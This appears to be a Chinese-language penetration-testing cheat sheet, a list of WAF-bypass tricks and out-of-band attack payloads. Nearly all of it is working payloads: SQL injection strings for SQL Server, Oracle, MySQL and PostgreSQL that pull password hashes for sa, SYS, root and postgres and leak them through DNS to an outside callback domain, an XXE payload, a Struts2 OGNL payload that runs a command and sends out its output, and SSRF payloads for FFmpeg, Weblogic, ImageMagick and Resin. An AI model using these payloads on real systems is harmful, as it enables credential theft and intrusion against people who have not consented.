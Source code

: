 
## 转译
- 单引号，将 ```'``` 转换成 ```''```
- 反斜杠，将 ```\``` 转化成 ```\\```



http://www.likecs.com/show-83546.html
## 畸形包绕过waf
1. get转化成post
2. 空格使用%20代替（"union select 1" = "union%20select%201"）

## 分块传输绕过waf
1. 数据包中添加Transfer-Encoding: chunked
2. 一段段传数据（第一次发：“unio”, 第二段：“n sele”...）


## sql注入
- SQL Server:
```
DECLARE @host varchar(1024);
SELECT @host=(SELECT TOP 1 master.dbo.fn_varbintohexstr(password_hash) FROM sys.sql_logins WHERE name='sa')+'.ip.port.7sc0en.j8.rip';EXEC('master..xp_dirtree "\\'+@host+'\foobar$"');
```
- Oracle
```
SELECT UTL_INADDR.GET_HOST_ADDRESS('ip.port.7sc0en.j8.rip');
SELECT UTL_HTTP.REQUEST('http://ip.port.7sc0en.j8.rip/oracle') FROM DUAL;
SELECT HTTPURITYPE('http://ip.port.7sc0en.j8.rip/oracle').GETCLOB() FROM DUAL;
SELECT DBMS_LDAP.INIT(('oracle.ip.port.7sc0en.j8.rip',80) FROM DUAL;
SELECT DBMS_LDAP.INIT((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.ip.port.7sc0en.j8.rip',80) FROM DUAL;
```
- MySQL
```
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.7sc0en.j8.rip\\abc'));
```
- PostgreSQL
```
DROP TABLE IF EXISTS table_output; 
CREATE TABLE table_output(content text); 
CREATE OR REPLACE FUNCTION temp_function() RETURNS VOID AS $ DECLARE exec_cmd TEXT;
DECLARE query_result TEXT; 
BEGIN SELECT INTO query_result (SELECT passwd FROM pg_shadow WHERE usename='postgres'); 
exec_cmd := E'COPY table_output(content) FROM E\'\\\\\\\\'||query_result||E'.psql.ip.port.7sc0en.j8.rip\\\\foobar.txt\'';
EXECUTE exec_cmd; 
END;
$ LANGUAGE plpgsql SECURITY DEFINER; SELECT temp_function();
```


## XML Entity注入
```
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://ip.port.7sc0en.j8.rip/xxe_test"> %remote;]> <root/>
```

## 其他利用
- Struts2:
```
'xx.action?redirect:http://ip.port.7sc0en.j8.rip/%2512
xx.action?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{whoami})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://ip.port.7sc0en.j8.rip/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}
```
- FFMpeg:
```
#EXTM3U #EXT-X-MEDIA-SEQUENCE:0 #EXTINF:10.0, concat:http://ip.port.7sc0en.j8.rip #EXT-X-ENDLIST
```
- Weblogic:
```
test.com/uddiexplorer/SearchPublicRegistries.jsp?operator=http://ip.port.7sc0en.j8.rip/test&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Businesslocation&btnSubmit=Search
```
- ImageMagick:
```
push graphic-context viewbox 0 0 640 480 fill 'url(http://ip.port.7sc0en.j8.rip)' pop graphic-context
```
- Resin:
```
test.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=http://ip.port.7sc0en.j8.rip/ssrf
```